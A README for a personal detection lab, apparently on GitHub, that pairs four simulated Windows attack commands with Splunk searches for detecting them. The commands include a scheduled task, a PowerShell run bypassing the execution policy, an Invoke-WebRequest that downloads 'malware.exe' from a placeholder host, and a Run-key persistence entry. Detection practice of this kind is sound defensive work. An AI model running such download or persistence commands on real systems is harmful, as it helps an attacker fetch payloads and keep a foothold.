 # Sysmon-Splunk-detection

This repo contains hands-on detection labs using Splunk, Sysmon, and Windows logging. I would run all of these simulations in a VM that I built and then took screenshots of the resulting logs in Splunk.

## Tools Used
- Sysmon (with config)
- Splunk
- Windows VM (via VMware)

## Attack 1 – Suspicious Scheduled Task Creation
**Command used:**

schtasks /create /sc minute /mo 5 /tn "Updater" /tr "calc.exe" 

**Detection Method in Splunk**
index=* CommandLine="*calc.exe*"


![Log Screenshot](Incident-01.png)

## Attack 2 – Suspicious PowerShell Activity**
**Command used:**

-NoProfile -ExecutionPolicy Bypass -Command "Write-Output 'This is a test of suspicious PowerShell activity'"

**Detection Method in Splunk**
index=* EventCode=1 Image="*powershell.exe" NOT Image="*splunk-powershell.exe"


![Log Screenshot](Incident-02.png)


## Attack 3 – Spotting an Invoke Web-Request**
**Command used:**

-NoProfile -ExecutionPolicy Bypass -Command "Invoke-WebRequest http://example.com/malware.exe -OutFile C:\users\Public\malware.exe"

**Detection Method in Splunk**
 index=* sourcetype=WinEventLog* powershell "Invoke-WebRequest"


![Log Screenshot](Incident-03.png)


## Attack 4 – Registry Key Persistence**
**Command used:**

New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Malware" -Value "calc.exe"

**Detection Method in Splunk**
index=* sourcetype=WinEventLog* EventCode=13 Malware


![Log Screenshot](Incident-04.png)
